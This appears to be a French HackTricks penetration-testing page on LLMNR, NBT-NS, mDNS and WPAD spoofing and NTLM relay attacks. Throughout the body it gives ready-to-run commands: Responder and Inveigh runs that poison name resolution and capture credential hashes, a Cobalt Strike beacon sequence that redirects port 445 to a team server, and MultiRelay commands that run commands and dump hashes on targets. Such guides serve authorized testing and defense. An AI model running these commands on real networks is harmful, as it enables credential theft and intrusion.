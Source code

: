 # Spoofing LLMNR, NBT-NS, mDNS/DNS et WPAD et Attaques de Relay

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Protocoles Réseau

### Protocoles de Résolution de Nom Local
- **LLMNR, NBT-NS et mDNS** :
- Microsoft et d'autres systèmes d'exploitation utilisent LLMNR et NBT-NS pour la résolution de noms locaux lorsque DNS échoue. De même, les systèmes Apple et Linux utilisent mDNS.
- Ces protocoles sont sensibles à l'interception et au spoofing en raison de leur nature non authentifiée et de diffusion sur UDP.
- [Responder](https://github.com/lgandx/Responder) peut être utilisé pour usurper des services en envoyant des réponses falsifiées aux hôtes interrogeant ces protocoles.
- Des informations supplémentaires sur l'usurpation de services utilisant Responder peuvent être trouvées [ici](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protocole de Découverte Automatique de Proxy Web (WPAD)
- WPAD permet aux navigateurs de découvrir automatiquement les paramètres de proxy.
- La découverte est facilitée via DHCP, DNS, ou un retour à LLMNR et NBT-NS si DNS échoue.
- Responder peut automatiser les attaques WPAD, dirigeant les clients vers des serveurs WPAD malveillants.

### Responder pour le Poisoning de Protocole
- **Responder** est un outil utilisé pour empoisonner les requêtes LLMNR, NBT-NS et mDNS, répondant sélectivement en fonction des types de requêtes, ciblant principalement les services SMB.
- Il est préinstallé dans Kali Linux, configurable à `/etc/responder/Responder.conf`.
- Responder affiche les hachages capturés à l'écran et les enregistre dans le répertoire `/usr/share/responder/logs`.
- Il prend en charge à la fois IPv4 et IPv6.
- La version Windows de Responder est disponible [ici](https://github.com/lgandx/Responder-Windows).

#### Exécution de Responder
- Pour exécuter Responder avec les paramètres par défaut : `responder -I <Interface>`
- Pour un probing plus agressif (avec des effets secondaires potentiels) : `responder -I <Interface> -P -r -v`
- Techniques pour capturer les défis/réponses NTLMv1 pour un craquage plus facile : `responder -I <Interface> --lm --disable-ess`
- L'usurpation WPAD peut être activée avec : `responder -I <Interface> --wpad`
- Les requêtes NetBIOS peuvent être résolues à l'IP de l'attaquant, et un proxy d'authentification peut être mis en place : `responder.py -I <interface> -Pv`

### Poisoning DHCP avec Responder
- Le spoofing des réponses DHCP peut empoisonner de manière permanente les informations de routage d'une victime, offrant une alternative plus discrète au poisoning ARP.
- Cela nécessite une connaissance précise de la configuration du réseau cible.
- Exécution de l'attaque : `./Responder.py -I eth0 -Pdv`
- Cette méthode peut capturer efficacement les hachages NTLMv1/2, mais nécessite une manipulation prudente pour éviter toute perturbation du réseau.

### Capture de Credentials avec Responder
- Responder usurpera des services en utilisant les protocoles mentionnés ci-dessus, capturant des credentials (généralement NTLMv2 Challenge/Response) lorsqu'un utilisateur tente de s'authentifier contre les services usurpés.
- Des tentatives peuvent être faites pour rétrograder vers NetNTLMv1 ou désactiver ESS pour un craquage de credentials plus facile.

Il est crucial de noter que l'utilisation de ces techniques doit être effectuée légalement et éthiquement, en s'assurant d'une autorisation appropriée et en évitant toute perturbation ou accès non autorisé.

## Inveigh

Inveigh est un outil pour les testeurs de pénétration et les équipes rouges, conçu pour les systèmes Windows. Il offre des fonctionnalités similaires à Responder, effectuant des attaques de spoofing et de man-in-the-middle. L'outil a évolué d'un script PowerShell à un binaire C#, avec [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) et [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) comme versions principales. Des paramètres détaillés et des instructions peuvent être trouvés dans le [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh peut être opéré via PowerShell :
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ou exécuté en tant que binaire C# :
```bash
Inveigh.exe
```
### NTLM Relay Attack

Cette attaque exploite les sessions d'authentification SMB pour accéder à une machine cible, accordant un shell système si elle réussit. Les prérequis clés incluent :
- L'utilisateur authentifié doit avoir un accès administrateur local sur l'hôte relayé.
- La signature SMB doit être désactivée.

#### 445 Port Forwarding and Tunneling

Dans les scénarios où l'introduction directe dans le réseau n'est pas faisable, le trafic sur le port 445 doit être redirigé et tunnelé. Des outils comme [**PortBender**](https://github.com/praetorian-inc/PortBender) aident à rediriger le trafic du port 445 vers un autre port, ce qui est essentiel lorsque l'accès administrateur local est disponible pour le chargement de pilotes.

PortBender setup and operation in Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Autres Outils pour l'Attaque de Relais NTLM

- **Metasploit** : Configuré avec des proxies, des détails sur les hôtes locaux et distants.
- **smbrelayx** : Un script Python pour relayer des sessions SMB et exécuter des commandes ou déployer des portes dérobées.
- **MultiRelay** : Un outil de la suite Responder pour relayer des utilisateurs spécifiques ou tous les utilisateurs, exécuter des commandes ou extraire des hachages.

Chaque outil peut être configuré pour fonctionner via un proxy SOCKS si nécessaire, permettant des attaques même avec un accès réseau indirect.

### Fonctionnement de MultiRelay

MultiRelay est exécuté depuis le _**/usr/share/responder/tools**_ répertoire, ciblant des IP ou des utilisateurs spécifiques.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Ces outils et techniques forment un ensemble complet pour mener des attaques par relais NTLM dans divers environnements réseau.

### Forcer les connexions NTLM

Dans Windows, vous **pouvez être en mesure de forcer certains comptes privilégiés à s'authentifier sur des machines arbitraires**. Lisez la page suivante pour apprendre comment :

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Références
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
